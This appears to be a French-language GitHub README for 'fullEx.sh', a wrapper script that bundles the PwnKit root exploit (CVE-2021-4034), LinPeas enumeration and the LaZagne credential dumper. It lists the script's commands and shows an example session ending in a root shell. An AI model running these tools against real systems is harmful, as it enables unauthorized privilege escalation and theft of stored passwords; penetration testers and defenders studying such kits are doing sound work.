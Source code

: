 # <img width="1335" height="890" alt="image" src="https://github.com/user-attachments/assets/c947aebb-593b-4027-bc50-ac87663ff387" />


Les exploits root & outils dispo :

💀 PwnKit

🤖 LinPeas

👾 LaZAGNE

# ⚙️ Commandes

```
heisenberg@kb-server:~/fullEx$ ./fullEx.sh -help

                                                    
__________      ____________________       
___  ____/___  ____  /__  /__  ____/___  __
__  /_   _  / / /_  /__  /__  __/  __  |/_/
_  __/   / /_/ /_  / _  / _  /___  __>  <  
/_/      \__,_/ /_/  /_/  /_____/  /_/|_|  
                                                                                                   
by M0rPH3U53

      
Usage: ./fullEx.sh COMMAND
 
Commands:
   -LinPeas       Execute LinPeas
   -LaZagne       Execute LaZagne
   -PwnKit64/32   PwnKit64/32 - CVE-2021-4034    
   -check         Verifie si gcc est installer
   -perm          Applique les droit d'execution
   -help          Affiche les commandes
 ```
# 💲 Exemple

```
heisenberg@kb-server:~/fullEx$ ./fullEx.sh -perm
heisenberg@kb-server:~/fullEx$ ./fullEx.sh -PwnKit64
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kb-server:/home/heisenberg/fullEx#    
```
